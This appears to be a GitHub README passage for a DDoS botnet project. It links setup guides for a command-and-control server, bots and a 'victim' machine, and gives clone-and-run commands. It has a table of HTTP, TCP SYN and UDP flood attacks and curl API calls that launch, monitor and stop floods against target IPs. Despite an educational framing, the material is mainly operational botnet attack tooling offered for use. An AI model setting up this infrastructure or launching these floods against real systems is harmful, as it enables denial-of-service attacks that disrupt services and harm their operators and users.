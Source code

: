 1. **Setup Infrastructure**
   - 📋 [Windows Setup](deployment/01_windows_setup.md)
   - 🖥️ [C2 Server Setup](deployment/02_c2_server_setup.md)
   - 🤖 [Bot Deployment](deployment/03_bot_deployment.md)
   - 🎯 [Target Setup](deployment/04_windows_victim_setup.md)

2. **Configure and Deploy**
   ```bash
   git clone https://github.com/Murali8823/ddos.git
   cd ddos
   pip install -r requirements.txt
   # Edit config.json to match your network
   python -m c2_server.main
   ```

## 🎮 Attack Capabilities

### Supported Attack Types

| Attack Type | Description | Max Intensity | Educational Value |
|-------------|-------------|---------------|-------------------|
| **HTTP Flood** | Application layer attack targeting web servers | 2,800 req/sec | Web application security |
| **TCP SYN Flood** | Network layer attack exploiting TCP handshake | High volume | Network protocol security |
| **UDP Flood** | Transport layer attack consuming bandwidth | Configurable | Network resource management |

### Attack Execution

**🐳 Docker Deployment:**
```cmd
# Access the web dashboard
# Navigate to: http://localhost:8080
# Use the GUI to start attacks with point-and-click interface

# Or use API commands
curl -X POST http://localhost:8080/api/attack/start \
  -H "Content-Type: application/json" \
  -d '{
    "attack_type": "http_flood",
    "target_ip": "target-server",
    "target_port": 80,
    "intensity": 50,
    "duration": 60
  }'
```

**🖥️ Manual Deployment:**
```bash
# Start HTTP flood attack
curl -X POST http://192.168.1.100:8080/api/attack/start \
  -H "Content-Type: application/json" \
  -d '{
    "attack_type": "http_flood",
    "target_ip": "192.168.1.200",
    "target_port": 80,
    "intensity": 50,
    "duration": 60
  }'

# Monitor attack progress
curl http://192.168.1.100:8080/api/status

# Emergency stop
curl -X POST http://192.168.1.100:8080/api/emergency-stop
```